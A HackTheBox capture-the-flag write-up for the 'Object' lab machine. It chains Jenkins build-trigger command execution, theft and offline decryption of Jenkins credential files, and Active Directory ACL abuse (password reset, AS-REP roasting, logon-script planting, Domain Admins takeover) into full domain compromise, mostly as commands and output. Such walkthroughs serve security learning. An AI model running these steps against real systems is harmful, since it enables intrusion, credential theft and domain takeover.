

# HackTheBox
------------------------------------
### IP: 10.129.96.147
### Name: Object
### Difficulty: Hard
--------------------------------------------


I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV -oN nmap.txt 10.129.96.147 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-07-30 08:08 CDT
Nmap scan report for 10.129.96.147
Host is up (0.069s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Microsoft IIS httpd 10.0
|_http-title: Mega Engines
| http-methods: 
|_  Potentially risky methods: TRACE
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
8080/tcp open  http    Jetty 9.4.43.v20210629
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.93 seconds
```

Looking at the site on port 80 we find a simple page with a link to the company's automation server at object.htb:8080, so lets add that to `/etc/hosts`.

Looking at port 8080 we find there is a Jenkins instance running:


Lets create a profile for jenkins:


We do not have access to the `/script` endpoint to execute Groovy scripts.

Also, we can create a job (attempting to insert a powershell reverse shell to execute), but seemingly don't have the ability to actually Build it as there is no Build Now button. 

We can list users at: http://object.htb:8080/asynchPeople/


Appears just our created test user and admin are present.

Looking around at https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/jenkins-rce-creating-modifying-project I see that even though we do not have a Build button in the GUI, we can set the Build Trigger to `* * * * *` essentially setting the project on a cron job to build every minute.



Putting a Powershell reverse shell in the Build command:


We can click on the build history and on Console Output and see that the reverse shell failed, but due to the verbosity of the output we discover the username oliver:


Lets simplify things and remove the powershell one liner and replace it with the command `hostname`

We can then wait for the cron to build the project and checking the console out put we see it worked:


For whatever reason (I have no idea why) as I was testing this the cronjob stopped working and Building my project.

The HackTricks article also mentioned that project could be built utilizing an API token.

In my user profile I clicked Configure and then on "generate api token".

I was then able to copy this token and select "Trigger Builds Remotely" in Build Triggers and paste in my token:


From here I could navigate to http://object.htb:8080/job/test3/build?token=11c0dc40ee30d57297499d3a11a89d1fbc which would trigger a build on my project, this time running the command `systeminfo`


So so far we can confirm we have code execution, as we are able to run system commands, however I've been unable to spawn a reverse shell.

We can confirm who are users on the domain with `net users /domain`


We can also query the firewall settings:

```
Started by remote host 10.10.14.214
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3
[test3] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins16395389533432323781.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3>cmd /c "netsh advfirewall show currentprofile" 

Domain Profile Settings: 
----------------------------------------------------------------------
State                                 ON
Firewall Policy                       BlockInbound,AllowOutbound
LocalFirewallRules                    N/A (GPO-store only)
LocalConSecRules                      N/A (GPO-store only)
InboundUserNotification               Disable
RemoteManagement                      Disable
UnicastResponseToMulticast            Enable

Logging:
LogAllowedConnections                 Disable
LogDroppedConnections                 Disable
FileName                              %systemroot%\system32\LogFiles\Firewall\pfirewall.log
MaxFileSize                           4096
```

### Foothold 

We can view Jenkins files:


Lets also look at the `.jenkins` folder running in oliver's directory, specifically the `users` directory:

```
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3>dir C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users 
 Volume in drive C has no label.
 Volume Serial Number is 212C-60B7

 Directory of C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users

07/30/2024  06:14 AM    <DIR>          .
07/30/2024  06:14 AM    <DIR>          ..
10/21/2021  02:22 AM    <DIR>          admin_17207690984073220035
07/30/2024  06:28 AM    <DIR>          test_9973474590391204300
07/30/2024  06:14 AM               402 users.xml
               1 File(s)            402 bytes
               4 Dir(s)   4,620,726,272 bytes free
```

Lets access the admin's config.xml in their admin directory:

```
Started by remote host 10.10.14.214
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3
[test3] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins7512881692300642513.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3>type C:\Users\oliver\AppData\Local\Jenkins\.jenkins\users\admin_17207690984073220035\config.xml 
<?xml version='1.1' encoding='UTF-8'?>
<user>
  <version>10</version>
  <id>admin</id>
  <fullName>admin</fullName>
  <SNIP>
              <username>oliver</username>
              <password>{AQAAABAAAAAQqU+m+mC6ZnLa0+yaanj2eBSbTk+h4P5omjKdwV17vcA=}</password>
              <usernameSecret>false</usernameSecret>
            </com.cloudbees.plugins.credentials.impl.UsernamePasswordCredentialsImpl>
          </java.util.concurrent.CopyOnWriteArrayList>
        </entry>
      </domainCredentialsMap>
    </com.cloudbees.plugins.credentials.UserCredentialsProvider_-UserCredentialsProperty>
    <hudson.plugins.emailext.watching.EmailExtWatchAction_-UserProperty plugin="email-ext@2.84">
<SNIP>
    <hudson.security.HudsonPrivateSecurityRealm_-Details>
      <passwordHash>#jbcrypt:$2a$10$q17aCNxgciQt8S246U4ZauOccOY7wlkDih9b/0j4IVjZsdjUNAPoW</passwordHash>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@1.34">
      <emailAddress>admin@object.local</emailAddress>
<SNIP>
Finished: SUCCESS
```

Cool, looks like we have some hashes. Lets grab the Jenkins master.key from `C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key`:

```
Started by remote host 10.10.14.214
Running as SYSTEM
Building in workspace C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3
[test3] $ cmd /c call C:\Users\oliver\AppData\Local\Temp\jenkins12622811519784325959.bat

C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3>type C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\master.key 
f673fdb0c4fcc339070435bdbe1a039d83a597bf21eafbb7f9b35b50fce006e564cff456553ed73cb1fa568b68b310addc576f1637a7fe73414a4c6ff10b4e23adc538e9b369a0c6de8fc299dfa2a3904ec73a24aa48550b276be51f9165679595b2cac03cc2044f3c702d677169e2f4d3bd96d8321a2e19e2bf0c76fe31db19
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3>exit 0 
Finished: SUCCESS
```

Lastly, we'll need to get the hudson.util.secret file from the target.

The way this file is encoded we can't simply issue `type <file>`, so we'll need to convert it to base64, then copy it over to our attacking machine, then decode it.

We can do that with: 

```
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3>certutil -encodehex -f "C:\Users\oliver\AppData\Local\Jenkins\.jenkins\secrets\hudson.util.secret" "output.txt" 0x40000001  1>nul 
```

Followed by:

```
C:\Users\oliver\AppData\Local\Jenkins\.jenkins\workspace\test3>type output.txt 
gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=
```

The we can decode and save to a file in our terminal:

```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ echo "gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=" | base64 -w 0 -d > hudson.util.secret
```

Cool, now that we have these three files we can use https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py to decrypt the password hash:


```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ python jenkins_offline_decrypt.py master.key hudson.util.secret config.xml
c1cdfun_d2434
```

With this decrypted password hash we can use evil-winrm to logon as oliver, and grab the user.txt flag:

```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ evil-winrm -u oliver -p 'c1cdfun_d2434' -i 10.129.96.147 

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\oliver\Documents> whoami
object\oliver
*Evil-WinRM* PS C:\Users\oliver\Documents> hostname
jenkins
```


### Privilege Escalation

Not finding much for privilege escalation I decided to load SharpHound to see what else I could enumerate:

`./Sharphound.exe`

This creates a .zip file and we can use the `download` feature in evil-winrm to bring it back locally for use:

```
*Evil-WinRM* PS C:\temp> download C:\temp\20240730100656_BloodHound.zip /home/ryan/HTB/Object/20240730100656_BloodHound.zip
Info: Downloading C:\temp\20240730100656_BloodHound.zip to /home/ryan/HTB/Object/20240730100656_BloodHound.zip

                                                             
Info: Download successful!
```

We can then run:

```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ sudo neo4j console 
```

Followed by:

```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ bloodhound
```

Marking user oliver as 'owned' we see he has ForceChangePassword rights over user smith, who has GenericWrite privileges for user maria, who in turn has the GenericAll privilege over the domain admins group.


So first lets change smith's password so we can access their account and privileges.

I usually do this with `net rpc`, but that won't work here because SMB isn't open on the target:

```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ net rpc password "smith" "password123" -U "oliver"%"c1cdfun_d2434" -S "10.129.96.147"
Failed to set password for 'smith' with error: Failed to connect to IPC$ share on 10.129.96.147.
```

Lets do this with PowerView.ps1

```
*Evil-WinRM* PS C:\temp> . .\PowerView.ps1
*Evil-WinRM* PS C:\temp> $newpass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
*Evil-WinRM* PS C:\temp> Set-DomainUserPassword -Identity smith -AccountPassword $newpass -verbose
Verbose: [Set-DomainUserPassword] Attempting to set the password for user 'smith'
Verbose: [Set-DomainUserPassword] Password for user 'smith' successfully reset
```

Lets confirm that worked by logging in with evil-winrm as user smith:

```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ evil-winrm -u smith -p 'Password123!' -i  10.129.96.147

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\smith\Documents> hostname
jenkins
```

Next we now have to work with user smith having GenericWrite access over another user, maria.

Lets do that with:

```
*Evil-WinRM* PS C:\temp> Set-ADAccountControl -Identity maria -DoesNotRequirePreAuth $true
```

I can then use Rubeus.exe to extract the hash:

```
*Evil-WinRM* PS C:\temp> .\Rubeus.exe asreproast /user:maria /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: AS-REP roasting

[*] Target User            : maria
[*] Target Domain          : object.local

[*] Searching path 'LDAP://jenkins.object.local/DC=object,DC=local' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304)(samAccountName=maria))'
[*] SamAccountName         : maria
[*] DistinguishedName      : CN=maria garcia,CN=Users,DC=object,DC=local
[*] Using domain controller: jenkins.object.local (fe80::f1a6:25de:331e:4888%12)
[*] Building AS-REQ (w/o preauth) for: 'object.local\maria'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$maria@object.local:3538EF0A5A4003CE5CF5068A3917B4CE$1792D7CE0AE763F4D9AD140118EAFFB3719DAF9B30A412CF15C94B99958A95C201FCA3CBB4B1AB97EFD9E5A0452342EA5C8CEF0B3FA17A58629601A116CDE1F7D6711D4100576F8AEBE2BB9643641FDB2245D2413114D1BAF8C46FF5A8B406875789174CDAAA1C1CFA23C2952AF9A1DA7DCE0E4FBD71B5AE2C096876480B5BD7093E6F8C745B1C8DF688B43F4DA4316C7FE8392D7567EC2E87139E85380D26800D4F3FF95FF50D056E164FCF8085AEB10F8372BE4FDD79F8DE8D54E5B814F26288548D1A89EC27866C48FBE7AF0D874CEF1BE785CF047BE5399BFE066EF52EABB64D0396D00A49544CE70B0A
```

Unfortunately I was unable to crack this hash.

I am also unable to simply update maria's password as we did for smith:

```
*Evil-WinRM* PS C:\temp> $newpass = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
*Evil-WinRM* PS C:\temp> Set-DomainUserPassword -Identity maria -AccountPassword $newpass -verbose
Verbose: [Set-DomainUserPassword] Attempting to set the password for user 'maria'
Warning: [Set-DomainUserPassword] Error setting password for user 'maria' : Exception calling "SetPassword" with "1" argument(s): "Access is denied. (Exception from HRESULT: 0x80070005 (E_ACCESSDENIED))
```

Full disclosure I got stuck here forever, and ultimately resorted to looking at an 0xdf writeup for the next step. https://0xdf.gitlab.io/2022/02/28/htb-object.html#shell-as-maria

The writeup mentions the HackTricks page: https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse#genericwrite-on-user which states with GenericWrite privilege we can write scripts that may be executed when a user logs on. I saw this as well but never would have thought to try it on a CTF. But apparently whatever script we do write will be executed repeatedly as if maria was logging in. Really interesting. 

Because we are unable to access maria's directories, we can write a script that allows us to see their contents.

```
*Evil-WinRM* PS C:\ProgramData> echo "ls \users\maria\ > \programdata\out" > cmd.ps1
*Evil-WinRM* PS C:\ProgramData> Set-DomainObject -Identity maria -SET @{scriptpath="C:\\programdata\\cmd.ps1"}

*Evil-WinRM* PS C:\ProgramData> cat out


    Directory: C:\users\maria


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---       10/22/2021   3:54 AM                3D Objects
d-r---       10/22/2021   3:54 AM                Contacts
d-r---       10/25/2021   3:47 AM                Desktop
d-r---       10/25/2021  10:07 PM                Documents
d-r---       10/22/2021   3:54 AM                Downloads
d-r---       10/22/2021   3:54 AM                Favorites
d-r---       10/22/2021   3:54 AM                Links
d-r---       10/22/2021   3:54 AM                Music
d-r---       10/22/2021   3:54 AM                Pictures
d-r---       10/22/2021   3:54 AM                Saved Games
d-r---       10/22/2021   3:54 AM                Searches
d-r---       10/22/2021   3:54 AM                Videos
```

Cool. We can note that Desktop and Documents have different time stamps.

Lets update the script to access maria's documents:

```
*Evil-WinRM* PS C:\ProgramData> echo "ls \users\maria\documents > \programdata\out; ls \users\maria\desktop\ > \programdata\out2" > cmd.ps1

*Evil-WinRM* PS C:\ProgramData> ls out*


    Directory: C:\ProgramData


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/31/2024   5:19 AM              0 out
-a----        7/31/2024   5:19 AM            830 out2


*Evil-WinRM* PS C:\ProgramData> type out2


    Directory: C:\users\maria\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/26/2021   8:13 AM           6144 Engines.xls
```

Looks like an Excel doc called Engines.xls in there. Lets grab it and use the `download` feature to bring it back to our box:

```
*Evil-WinRM* PS C:\ProgramData> echo "copy \users\maria\desktop\Engines.xls \programdata\" > cmd.ps1 

*Evil-WinRM* PS C:\ProgramData> download C:\ProgramData\Engines.xls /home/ryan/HTB/Object/Engines.xls
Info: Downloading C:\ProgramData\Engines.xls to /home/ryan/HTB/Object/Engines.xls

                                                             
Info: Download successful!
```

Opening the file with libre office we find 3 passwords:


The credential `W3llcr4ft3d_4cls` seems particularly interesting.

Trying this with evil-winrm we can successfully authenticate as maria:

```
┌──(ryan㉿kali)-[~/HTB/Object]
└─$ evil-winrm -u maria -p 'W3llcr4ft3d_4cls' -i 10.129.96.147
```

Note: the target IP keeps changing because this box took me forever and I stopped, started, and reverted several times.

Now for the last ACL abuse step, we can think back to our bloodhound results and recall that maria had GenericAll access over the domain admins group.

First we'll need to assign maria as owner of the group with PowerView:

```
*Evil-WinRM* PS C:\temp> Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'
```

Next we'll assign maria full rights over the group:

```
*Evil-WinRM* PS C:\temp> Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All
```

Finally,lets add maria to the group with:

```
*Evil-WinRM* PS C:\temp> Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'
```

With that done I can exit my winrm session and log back in and confirm we are now in the domain admins group:

```
*Evil-WinRM* PS C:\Users\maria\Documents> net user maria
User name                    maria
Full Name                    maria garcia
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/21/2021 9:16:32 PM
Password expires             Never
Password changeable          10/22/2021 9:16:32 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 C:\\programdata\\cmd.ps1
User profile
Home directory
Last logon                   7/31/2024 4:45:45 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.
```

And we can grab the final flag:


Thanks for following along!

-Ryan

----------------------------------------------


